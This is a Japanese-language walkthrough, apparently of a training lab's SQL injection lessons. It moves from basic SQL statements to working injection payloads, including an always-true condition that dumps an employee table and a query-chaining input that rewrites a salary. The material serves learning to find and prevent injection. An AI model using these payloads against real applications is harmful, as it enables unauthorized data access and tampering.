 # (A1)Injection 節の問題の回答
DBとそれを扱うためのSQLの基本的な知識が要求されます。私はあまりDBに関して詳しいほうではないのでわからない部分は調べながら回答しました。
SQLInjectionという攻撃であっても、使う知識自体は意外と基本的なモノが多いことに驚きました。

## 2 What is SQL?
まずはSQLの基本の確認から。Bob Francoさんのdepartmentを確認しましょう。
ここではAdmin権限をすでに得ているため普通のQueryを組み立てます
```SQL
SELECT department FROM employees WHERE first_name = 'Bob' and last_name = 'Franco';
```
Tableの内容も見えているので、Bob Franco氏のdepartmentを抽出してクリア。
このテーブルの内容ならand last name = 'Franco'はなしでも動くとは思いますが一応記述します。

## 3 Data Manipulation Language 
上と同じくAdmin権限は持っているので、言われた通りTableを書き換えます
Tobi BarnettさんのdepartmentをSalesに変更します
```SQL
UPDATE employees SET department = 'Sales' WHERE first_name = 'Tobi' AND last_name = 'Barnett';
```
UPDATE文を使ってemployeesテーブル内の指定した行の該当データを書き換えました

## 4 Data Definition Language
employees Tableに"phone"というVARCHAR(20)のcolumn(列)を追加しましょう
```SQL
ALTER TABLE employees ADD phone VARCHAR(20);
```
データ型指定の後、明示的にNULLを示したほうが良い...のか?(DB弱者)

## 5 Data Control Language 
grant_rights Table に対する権限を unauthorized_userに対して与えます
```SQL
GRANT ALL PRIVILEGES ON grant_rights TO unauthorized_user;
```
ALL PRIVILEGESはSELECT,INSERT,DELETE,UPDATEのすべての権限を与えます。
ちなみに、GRANTとは逆に、権限を取り消してアクセスできないようにしたい場合はREVOKEを使用します。構文はほぼ同じです。

## 9 Try It! String SQL injection 
ここからSQLInjectionについての勉強が始まります。まずは練習として選択肢から正しい選択を選んでいきましょう。ページに提示されている説明文を解釈すると、
```SQL
SELECT FROM user_data WHERE first_name = 'John' AND last_name = ' [入力されたデータがここに入る] ';
```
というSQL文が実行されることが示されているので、それをヒントに解いていきましょう。
まず最初の選択肢を **Smith'** にすることで、 last_name = 'Smith' となり、
次にorを選択し、最後に **'1' = '1** を選択すると
```SQL
SELECT FROM user_data WHERE first_name = 'John' AND last_name = 'Smith' or '1' = '1' ;
```
という文章が出来上がり、条件式を左から順番に評価すると常に結果がTRUEとなるのですべてのユーザに関するデータが出力されます

## 10 Try It! Numeric SQL injection
入力フィールドは数字であることが期待されているので、それを考慮したうえで文章を組み立てる必要があります。
最初のフィールド(Login_Count)に**適当な数字**、次のフィールドに **1 or 1 = 1**といったように、適当な数字の後に or 1 = 1 という文を追加することで常にTRUEの条件を成立させることができ、正解となります。この場合組み立てらた文章は以下のようになります
```SQL
SELECT * From user_data WHERE Login_Count = 0 and userid= 1 or 1=1;
```

## 11 Compromising confidentiality with String SQL injection
SQLを用いてテーブル内のほかのemployeesの情報を取得することが目的です。
このページでは自分の名前がJohn Smithであること、現在割り当てられているTAN-(Transaction Authorization number:トランザクション認証番号)Transactionを承認するための使い捨てのワンタイムパスワード-が提示されていますが、これらは無くてもこの問題を解くことができました。
Employee Name のフィールドに **foo** 
Authentication TAN のフィールドに **bar' or '1'='1**
と入力することで、
```SQL
SELECT * FROM employees WHERE last_name = 'foo' AND auth_tan = 'bar' OR '1' = '1';
```
という文章が組み立てられ、条件が常にTRUEとなりすべてのデータを閲覧できます。

## 12 Compromising Integrity with Query chaining
11の結果を見ると、どやらTobi と Bob が私よりもたくさん給料をもらっているらしいことが分かりました。私はもちろん放っておけないらしいので自分の給料を上げることにしたそうです。

Employee Nameフィールドには**foo**を
Authentication TANフィールドには**bar'; UPDATE employees SET salary = 10000000  WHERE first_name = 'John' and last_name = 'Smith**
と入力します。一度エディタでくみ上げてから入力したほうがいいですね(1敗)。これによって以下のように2つQueryが実行されると考えられます
```SQL
SELECT * FROM employees WHERE last_name = 'foo' AND auth_tan = 'bar'; 
UPDATE employees SET salary = 10000000  WHERE first_name = 'John' and last_name = 'Smith
```
上のSELECT分はこの問題とあまり関係がなく、問題は下です。フィールド内に;を追加したことによりQueryが一度終了し、そのあとから新しいQueryを自分で組み立て、実行してsalaryを書き換えています。
ダイナミック昇給の成功です。
